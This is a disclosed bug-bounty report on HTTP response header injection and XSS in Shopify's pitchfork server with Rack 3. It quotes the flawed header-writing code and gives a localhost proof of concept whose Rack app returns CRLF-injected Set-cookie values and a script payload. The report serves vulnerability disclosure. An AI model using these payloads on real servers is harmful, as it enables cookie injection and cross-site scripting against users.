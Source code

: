 # HTTP Response Header Injection in shopify/pitchfork + Rack 3

## Report Details
- **Report ID**: 2279572
- **URL**: https://hackerone.com/reports/2279572
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-12-10T06:13:31.895Z
- **Disclosed**: 2025-03-27T14:37:52.299Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
I have confirmed HTTP response header injection and XSS in combination of [pitchfork](https://github.com/Shopify/pitchfork) + Rack 3.

Here's where the problem is in the code.

https://github.com/Shopify/pitchfork/blob/v0.10.0/lib/pitchfork/http_response.rb#L23C1-L33C8

```ruby
    def append_header(buf, key, value)
      case value
      when Array # Rack 3
        value.each { |v| buf << "#{key}: #{v}\r\n" }
      when /\n/ # Rack 2
        # avoiding blank, key-only cookies with /\n+/
        value.split(/\n+/).each { |v| buf << "#{key}: #{v}\r\n" }
      else
        buf << "#{key}: #{value}\r\n"
      end
    end
```    

When using Rack 3, `\n` contained in value will be displayed as is in the output.

---


## PoC

```
❯ ruby -v
ruby 3.2.2 (2023-03-30 revision e51014f9c0) [arm64-darwin22]

❯ cat Gemfile
# frozen_string_literal: true

source "https://rubygems.org"

gem 'pitchfork', '~> 0.10.0'%

❯ bundle install
=> install rack (3.0.8)
```

nginx.conf

```
events {
    worker_connections  16;
}
http {
    server {
        listen 80;
        server_name localhost;

        location / {
            proxy_pass http://host.docker.internal:3000/;
            
            proxy_redirect off;
        }
    }
}
```

injection.ru

```ruby
class PitchForkHeaderInjection
  def call(env)
    params =  Rack::Request.new(env).params
    location = if params["mode"] == "rn"
                 ["a\r\nSet-cookie: injected=value"]
               elsif params["mode"] == "r"
                 ["b\rSet-cookie: injected_2=value2"]
               elsif params["mode"] == "n"
                 ["c\nSet-cookie: injected_3=value3"]
               elsif params["mode"] == "b"
                 ["d\r\n\r\n<script>alert(location)</script>"]
               else 
                  [""]
               end

    [ 200,
      {
       'content-type' => 'text/html',
        'location' => location
        },
      [""]
    ]
  end
end

run PitchForkHeaderInjection.new
```

Start server

```
❯ docker run --name pitchfork_header -v $(pwd)/nginx.conf:/etc/nginx/nginx.conf:ro -d -p 8080:80 nginx 

❯ RACK_ENV=production bundle exec pitchfork -p 3000 injection.ru
# If RACK_ENV=production is not present, an error will occur due to Rack::Lint.
```


### Access from browser

http://localhost:8080/?mode=rn 

{F2913343}

http://localhost:8080/?mode=r

{F2913344}

http://localhost:8080/?mode=n

{F2913345}

Cookie status

{F2913347}

Header injection succeeds in case of `r\n` and `\n`. If only `\r`, nginx will prevent it.


http://localhost:8080/?mode=b

{F2913349}

Since `r\n` can be inserted, the response body can also be spoofed and XSS will be fired.

## Impact

If attacker can manipulate the redirect destination or cookie value, HTTP response header injection and XSS is possible.
(Past cases https://hackerone.com/reports/904059#activity-8945588 )

In the case of Rack 2, the value of `\n` is not included, and nginx prevents `\r`, so it is not treated as a vulnerability.
(Discussion on Unicorn https://yhbt.net/unicorn-public/20210226111552.GA22901@dcvr/T/#t )

## Attachments
- mode_rn.png
- mode_r.png
- mode_n.png
- injected_cookie.png
- mode_b.png
